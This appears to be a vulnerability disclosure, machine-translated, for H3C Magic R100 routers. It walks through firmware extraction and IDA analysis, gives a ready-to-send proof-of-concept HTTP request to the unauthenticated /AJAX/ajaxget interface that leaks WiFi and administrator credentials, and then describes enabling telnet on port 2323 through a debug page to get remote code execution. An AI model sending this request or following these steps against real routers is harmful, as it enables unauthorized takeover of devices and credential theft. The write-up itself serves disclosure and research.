





# Unauthorized access attack exists in xinhuasan magicr100


### Vulnerability description


There are / Ajax / ajaxget interfaces that can be accessed without authorization. Through ajaxmsg combined with aspgetgroup(), you can call to read some sensitive information and log in to the background to realize rce


Version: < = magicr100v100r005

<=MagciR100V200R00


### Vulnerability analysis and recurrence


### 1、 Firmware acquisition and unpacking


Although I have a physical machine, I still update the firmware package from the official website, https://download.h3c.com.cn/download.do?id=3342938


Unpack binwalk r100v100r100 and find that you can view the content directly,

```shell
ZHEFOX@ZHEFOX-MacOS:~/Desktop$ binwalk R100V100R005.bin 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
33280         0x8200          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 4145728 bytes
1245184       0x130000        Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 2269691 bytes, 534 inodes, blocksize: 131072 bytes, created: 2018-01-17 03:54:08
```

Extract using binwalk - em r100v100r100

```
ZHEFOX@ZHEFOX-MacOS:~/Desktop$ binwalk -eM R100V100R005.bin 

Scan Time:     2022-03-31 19:12:49
Target File:   /home/ZHEFOX/Desktop/R100V100R005.bin
MD5 Checksum:  42ec9ec3de32216ae2d93ad1ff3a208b
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
33280         0x8200          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 4145728 bytes

WARNING: Symlink points outside of the extraction directory: /home/ZHEFOX/Desktop/_R100V100R005.bin.extracted/squashfs-root/web -> /var/web; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/ZHEFOX/Desktop/_R100V100R005.bin.extracted/squashfs-root/dev/log -> /var/tmp/log; changing link target to /dev/null for security purposes.
1245184       0x130000        Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 2269691 bytes, 534 inodes, blocksize: 131072 bytes, created: 2018-01-17 03:54:08


Scan Time:     2022-03-31 19:12:51
Target File:   /home/ZHEFOX/Desktop/_R100V100R005.bin.extracted/8200
MD5 Checksum:  4b2d56fb09ee2c3feafac6513c01f7c6
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0xFB26C18E, created: 2018-01-17 03:51:29, image size: 4145664 bytes, Data Address: 0x80001000, Entry Point: 0x800044B0, data CRC: 0x9E4BD9D4, OS: Linux, CPU: MIPS, image type: OS Kernel Image, compression type: none, image name: "Linux Kernel Image"
3194976       0x30C060        Linux kernel version 2.6.30
3260544       0x31C080        CRC32 polynomial table, little endian
3274176       0x31F5C0        SHA256 hash constants, big endian
3281920       0x321400        CRC32 polynomial table, big endian
3475335       0x350787        Neighborly text, "neighbor %.2x%.2x.%.2x:%.2x:%.2x:%.2x:%.2x:%.2x lost on port %d(%s)(%s)"
3477803       0x35112B        HTML document header
3477966       0x3511CE        HTML document footer
3666048       0x37F080        AES S-Box
3974025       0x3CA389        Microsoft executable, MS-DOS
4145216       0x3F4040        ASCII cpio archive (SVR4 with no CRC), file name: "/dev", file name length: "0x00000005", file size: "0x00000000"
4145332       0x3F40B4        ASCII cpio archive (SVR4 with no CRC), file name: "/dev/console", file name length: "0x0000000D", file size: "0x00000000"
4145456       0x3F4130        ASCII cpio archive (SVR4 with no CRC), file name: "/root", file name length: "0x00000006", file size: "0x00000000"
4145572       0x3F41A4        ASCII cpio archive (SVR4 with no CRC), file name: "TRAILER!!!", file name length: "0x0000000B", file size: "0x00000000"
```

After successful extraction, we found the squashfs architecture, found the WWW directory in squashfs root, and found an ASP website


### 2、 Vulnerability implementation and analysis


When attacking this interface, I was unable to implement rce because the parameters could not be changed, but I was still thinking about whether this interface could be used differently. I threw the HTTP binary of the server into IDA for analysis and reference.
```asp
 366: function AjaxGetWan1State()
  367  {
  368      XMLHttpReqtmp = createXMLHttpRequest();
  369      if (XMLHttpReqtmp)
  370      {
  371:         var url = "AJAX/ajaxget";
  372          var msg="ajaxmsg=aspGetGroup(Wan1BasicState)";
  373          XMLHttpReqtmp.open("POST", url, true);
  ...
  385      	 { // ÐÅÏ¢ÒѾ­³É¹¦·µ»Ø£¬¿ªÊ¼´¦ÀíÐÅÏ¢
  386          	XMLHttpReq=null;
  387:         	setTimeout("AjaxGetWan1State();",2000);
  388           }
  389           else 
  ...
  399      if (XMLHttpReq)
  400      {
  401:         var url = "AJAX/ajaxget";
  402          var msg="ajaxmsg=aspGetGroup(Wan1Ping)";
  403          XMLHttpReq.open("POST", url+"?IsVersionCheck=1", true);
```

Search the string directly in IDA through the known available interface and track it.



Cross references continue to follow up,





It is found that there are many interfaces, which are functions and methods that can be called. You can print some information here and try to print out the log file of the system.

### While observing and constantly reading the leaked information, I found my WiFi account and password!!!


Here we can see the account, password, connection device and other information of the administrator and guest router, and then visit the interface below to view the website management password. If it is the same as the WiFi password, it is 1



### POC：

```
—————————————————————————————————   Obtain administrator account password   ———————————————————————————————————
POST /AJAX/ajaxget HTTP/1.1
Host: 192.168.124.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.55
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78430
Origin: http://192.168.124.1
Connection: close
Referer: http://192.168.124.1/AJAX/ajaxget
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

ajaxmsg=aspGetGroup(all_ssid_list)


```

Once we get the password, we can access the management interface of the system,


Turn off the annoying defense first and find that the machine has telnet,



At the same time, it is found that http://192.168.124.1/debug.asp This debug page


Open telnet to rce. Although there are other rce methods, this method is the simplest.

telnet [wanip] 2323 can be used to connect.
